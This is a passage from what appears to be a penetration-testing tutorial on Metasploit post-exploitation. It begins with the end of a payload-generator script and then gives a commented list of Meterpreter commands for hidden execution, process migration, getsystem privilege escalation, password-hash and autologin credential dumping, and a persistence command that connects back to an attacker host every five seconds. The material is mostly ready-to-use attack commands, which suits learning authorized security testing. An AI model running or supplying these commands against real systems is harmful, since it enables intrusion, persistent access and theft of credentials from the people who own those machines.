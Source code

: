 ```bash
echo "[+] Payloads generated in $OUTPUT_DIR/"
ls -la "$OUTPUT_DIR/"
EOF
chmod +x payload_generator.sh
```

## Post-Exploitation with Metasploit

### **Meterpreter Advanced Usage**

**What Meterpreter provides:** Advanced payload that provides interactive shell, file system access, network pivoting, and extensive post-exploitation capabilities.

**Why Meterpreter is powerful:** Lives entirely in memory, provides encrypted communication, and offers comprehensive post-exploitation modules.

```bash
# Meterpreter session interaction
sessions -i 1                                # Interact with meterpreter session

# Basic meterpreter commands
sysinfo                                      # System information
getuid                                       # Current user context
pwd                                          # Current directory
ls                                           # List files
cd /path/to/directory                        # Change directory
cat file.txt                                # Display file contents
download /path/to/file                       # Download file to attacker machine
upload /local/file /remote/path              # Upload file to target

# Process and service management
ps                                           # List running processes
kill 1234                                    # Kill process by PID
execute -f cmd.exe -i -H                     # Execute command interactively and hidden
migrate 1234                                 # Migrate to another process
run post/windows/manage/migrate              # Auto-migrate to stable process

# Network and system information
ipconfig                                     # Network configuration (Windows)
ifconfig                                     # Network configuration (Linux)
route                                        # Routing table
netstat                                      # Network connections
arp                                          # ARP table

# Privilege escalation
getsystem                                    # Attempt automatic privilege escalation
run post/windows/escalate/getsystem          # Alternative privilege escalation
run post/multi/recon/local_exploit_suggester # Suggest local exploits

# Persistence mechanisms
run persistence -S -U -X -i 5 -p 443 -r 192.168.1.5
# -S: Automatically start handler
# -U: User-level persistence
# -X: Startup folder persistence
# -i: Connect back every 5 seconds
# -p: Port 443
# -r: Remote host

# Advanced meterpreter modules
run post/windows/gather/hashdump             # Dump password hashes
run post/windows/gather/credentials/windows_autologin # AutoLogin credentials
run post/windows/gather/enum_applications    # Installed applications
run post/windows/gather/enum_computers       # Domain computers
run post/windows/gather/enum_logged_on_users # Logged on users
```